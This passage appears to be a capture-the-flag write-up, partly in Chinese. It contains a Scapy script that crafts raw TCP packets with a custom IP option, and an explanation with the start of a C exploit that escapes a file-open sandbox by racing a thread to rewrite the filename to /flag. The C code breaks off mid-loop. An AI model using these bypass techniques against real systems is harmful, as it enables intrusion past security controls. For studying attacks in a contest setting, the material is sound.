 ```python
src = '192.168.24.2'
dst = '192.168.23.1'
dport = 18082
iface = 'hgovpn-guest'

opt = bytes([0x21, 14]) + b'\0' * 2 + b'GET / HTTP' + b'\0' * 2

# SYN
ip = IP(src=src, dst=dst, options=opt)
SYN = TCP(sport=sport, dport=dport, flags='S', seq=init_seq)
pkt = ip / SYN
print('send', pkt)
print('raw', bytes(pkt))
SYNACK = sr1(pkt, iface=iface)
print('recv', SYNACK)
print(SYNACK.ack, SYNACK.seq)
print('=' * 100)

# SYN-ACK
ACK = TCP(sport=sport, dport=dport, flags='AP', seq=SYNACK.ack, ack=SYNACK.seq + 1)
data = Raw(load=payload)
pkt = ip / ACK / data
print('send', pkt)
print('raw', bytes(pkt))
resp = sr1(pkt, iface=iface)
print('recv', resp)
print(resp.ack, resp.seq)
print(bytes(resp))
print('=' * 100)

ACK = TCP(sport=sport, dport=dport, flags='A', seq=resp.ack, ack=resp.seq + 1)
pkt = ip / ACK
print('send', pkt)
resp2 = sr1(pkt, iface=iface)
print('recv', resp2)
print(resp2.ack, resp2.seq)
print(bytes(resp2))
print('###', resp2[TCP].payload)
print('=' * 100)
```

# 为什么要打开 /flag 😡

第一问，静态编译即可绕过限制。

第二问，阅读程序逻辑，可发现他截获了 open 操作的文件名参数，然后对其进行判断，如果含 `flag`，则返回假 flag，否则继续正常的系统调用。

假如某次调用中，沙箱得到的文件名不含 flag，但是内核得到的是 `/flag`，那么就能绕过限制。

注意到 `clone` 系统调用是允许的，那么可以开一个线程，不停修改 flag，然后上述情况则有可能发生。

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define _SCHED_H 1
#define __USE_GNU 1
#include <bits/sched.h>

char fn[100];

int work(void*) {
    for (int i = 0; i < 100000000; i++) {
```